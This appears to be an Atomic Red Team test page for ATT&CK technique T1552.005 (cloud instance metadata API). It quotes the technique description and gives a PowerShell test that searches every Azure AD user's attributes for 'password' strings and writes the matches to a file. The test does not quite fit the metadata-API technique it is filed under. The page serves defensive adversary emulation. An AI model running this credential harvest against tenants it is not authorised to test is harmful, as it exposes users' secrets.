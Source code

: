 # T1552.005 - Cloud Instance Metadata API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1552/005)
<blockquote>Adversaries may attempt to access the Cloud Instance Metadata API to collect credentials and other sensitive data.

Most cloud service providers support a Cloud Instance Metadata API which is a service provided to running virtual instances that allows applications to access information about the running virtual instance. Available information generally includes name, security group, and additional metadata including sensitive data such as credentials and UserData scripts that may contain additional secrets. The Instance Metadata API is provided as a convenience to assist in managing applications and is accessible by anyone who can access the instance.(Citation: AWS Instance Metadata API) A cloud metadata API has been used in at least one high profile compromise.(Citation: Krebs Capital One August 2019)

If adversaries have a presence on the running virtual instance, they may query the Instance Metadata API directly to identify credentials that grant access to additional resources. Additionally, adversaries may exploit a Server-Side Request Forgery (SSRF) vulnerability in a public facing web proxy that allows them to gain access to the sensitive information via a request to the Instance Metadata API.(Citation: RedLock Instance Metadata API 2018)

The de facto standard across cloud service providers is to host the Instance Metadata API at <code>http[:]//169.254.169.254</code>.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords](#atomic-test-1---azure---search-azure-ad-user-attributes-for-passwords)


<br/>

## Atomic Test #1 - Azure - Search Azure AD User Attributes for Passwords
This test uses the MSOnline Powershell module to retrieve all user attributes for a specified account, which can sometimes contain unsecured credentials. 
Upon successful execution, this test will scan all user attributes for any strings containing "password".
Those unsecured credentials will be output to a text file, as well as the account that they are associated with and the user attribute in which they were found. 
See: https://github.com/dafthack/CloudPentestCheatsheets/blob/master/cheatsheets/Azure.md

**Supported Platforms:** Azure-ad


**auto_generated_guid:** ae9b2e3e-efa1-4483-86e2-fae529ab9fb6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | Azure AD username | String | |
| password | Azure AD password | String | T1082Az|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
import-module msonline
$Password = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Password
Connect-MsolService -Credential $Credential
$users = Get-MsolUser -All;
foreach($user in $users)
{$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; 
foreach($prop in $props)
{if($user.$prop -like "*password*")
{("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop) | out-file -filepath $env:temp\T1552.005Test1.txt -append -force}}}
get-content -path $env:temp\T1552.005Test1.txt -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
remove-item $env:temp\T1552.005Test1.txt -force -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The MSOnline module must be installed.
##### Check Prereq Commands:
```powershell
if (get-command Get-MsolUser -erroraction silentlycontinue){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
install-module MSOnline
```




<br/>
